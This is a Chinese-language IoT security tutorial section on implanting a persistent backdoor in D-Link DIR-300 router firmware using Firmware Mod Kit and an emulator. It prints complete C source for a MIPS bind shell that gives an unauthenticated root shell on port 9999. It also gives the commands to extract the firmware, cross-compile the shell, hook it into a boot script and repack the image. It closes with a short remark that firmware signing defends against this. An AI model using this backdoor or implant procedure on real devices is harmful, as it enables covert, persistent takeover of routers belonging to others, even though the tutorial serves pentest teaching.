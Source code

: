 ## 3.9 利用FMK在固件中植入后门（FMK）

利用的时候有用的技术之一是能够修改固件。这可以通过：从固件中提取文件系统，修改内容，然后重打包成新固件。然后将新固件刷到设备上。

### 3.9.1 Getting ready

为了修改固件，我们将会使用Jeremy Collake和Craig Heffner编写的工具FMK.FMK利用Binwalk和其他工具从固件中提取文件系统，也提供了重打包修改的文件系统成新固件的功能。

FMK可以从[]()下载，或者如果你克隆了FAT工具，它就已经在你的系统中了。一旦你下载好它，我们就需要尝试的固件。为了让过程简单，并让读者在不需要购买设备的情况下重复下述步骤，我们将会使用利用FAT能够仿真的固件。

### 3.9.2 How to do it...

下面是步骤：

<br>&emsp;&emsp;&emsp;1. 本案例中使用的固件是D-Link DIR-300路由器。为了从固件中提取文件系统，我们将会使用FMK中的`extract-firmware.sh`脚本，而不是Binwalk。如下所示：

```java
./extract-firmware.sh Dlink-firmware.bin
```

![](../img/3-9/3-9-2-1.png)

提取到文件系统后，它包含一个新目录，里面包含文件夹：`rootfs, image_parts, logs`。对于我们的植入后门和修改目的，我们只关注`rootfs`文件夹。

`rootfs`文件夹包含了固件文件系统的全部内容。我们要做的就是为固件架构创建后门，然后找到个方法让固件启动后自动执行后门。

<br>&emsp;&emsp;&emsp;2. 让我们先找到固件是支持什么架构。我们可以通过在任意固件二进制上执行`readelf`指令来完成，例如BusyBox，如下图所示：

![](../img/3-9/3-9-2-2.png)

<br>&emsp;&emsp;&emsp;3. 正如我们从上述截图中看到的，这是一个MIPS小端架构，这意味着我们需要创建一个支持MIPS小端格式的后门。下面是我们即将使用的后门，是Osanda Malith编写的：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#define SERVER_PORT 9999
/* CC-BY: Osanda Malith Jayathissa (@OsandaMalith)
* Bind Shell using Fork for my TP-Link mr3020 router running
busybox
* Arch : MIPS
* mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -
march=24kc
*/
int main() {
    int serverfd, clientfd, server_pid, i = 0;
    char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n";
    char *args[] = { "/bin/busybox", "sh", (char *) 0 };
    struct sockaddr_in server, client;
    socklen_t len;
    server.sin_family = AF_INET;
    server.sin_port = htons(SERVER_PORT);
    server.sin_addr.s_addr = INADDR_ANY;
    serverfd = socket(AF_INET, SOCK_STREAM, 0);
    bind(serverfd, (struct sockaddr *)&server, sizeof(server));
    listen(serverfd, 1);
    while (1) {
        len = sizeof(struct sockaddr);
        clientfd = accept(serverfd, (struct sockaddr *)&client,
        &len);
        server_pid = fork();
        if (server_pid) {
            write(clientfd, banner, strlen(banner));
            for(; i <3 /*u*/; i++) dup2(clientfd, i);
            execve("/bin/busybox", args, (char *) 0);
            close(clientfd);
        } close(clientfd);
    } return 0;
}
```

一旦我们有了代码，我们可以使用MIPSEL的Buildroot，并使用跨平台的编译工具Buildroot编译它。我们不会深入Buildroot设置，由于它的过程是很直接的，且已经在文档中有了。

<br>&emsp;&emsp;&emsp;4. 创建了MIPSEL的跨平台编译器后，我们可以编译`bindshell.c`到`bindshell`，这可以替换被提取出的文件系统中的文件。

```java
./mipsel-buildroot-linux-uclibc--gcc bindshell.c -static -o bindshell
```

下一步是我们可以在文件系统的什么位置替换它和如何使它在引导的时候自动启动。这可能可以通过引导时自动执行的脚本完成。

<br>&emsp;&emsp;&emsp;5. 根据查看文件系统，我们可以在`etc/templates/`添加二进制,可以在`etc/scripts`位置中的`system.sh`脚本中引用它。如下图所示：
 
 ![](../img/3-9/3-9-2-5.png)

<br>&emsp;&emsp;&emsp;6. 现在，我们继续， 并使用`build-firmware.sh`脚本基于上述修改构建新的固件。如下图所示：
 
 ![](../img/3-9/3-9-2-6.png)

 完成构建过程时，它将会创建新固件，并放在`firmware-name`位置，名称为`new-firmware.bin`。


<br>&emsp;&emsp;&emsp;7. 有了新镜像后，我们可以将其拷贝：FAT目录下，并仿真验证我们添加的后面是否在运行。这可以通过之前讲过的仿真步骤来完成。如下图所示：

![](../img/3-9/3-9-2-7.png)

正如我们在上图中看到的，它给了我们一个可以访问的IP：`192.168.0.1`。但是更有趣的是，让我们来看看我们在固件中防止的后门binshell有没有被执行。

<br>&emsp;&emsp;&emsp;8. 让我们在前面的IP和端口9999运行一个Netcat，并查看其是否工作：

![](../img/3-9/3-9-2-8.png)

现在，我们有了一个设备上的完整root shell，因为之前我们在固件中放置的后门执行了。从这里开始，我们可以修改其他的设备配置或者简单地用它来远程访问运行我们修改过固件的设备。

### 3.9.3 How it works...

修改固件的能力对攻击者是极其重要和有用的。这使得攻击者绕过保护机制，删除安全特性，或者更多。由于像FMK这样的工具，攻击者可以极其轻松地添加他们的恶意软件或者后门到任意的设备固件，这会被地球上的任意位置的用户使用。

这就是为什么签名和校验和验证固件对于防止由于恶意软件或修改固件而引起的攻击非常重要的原因之一。
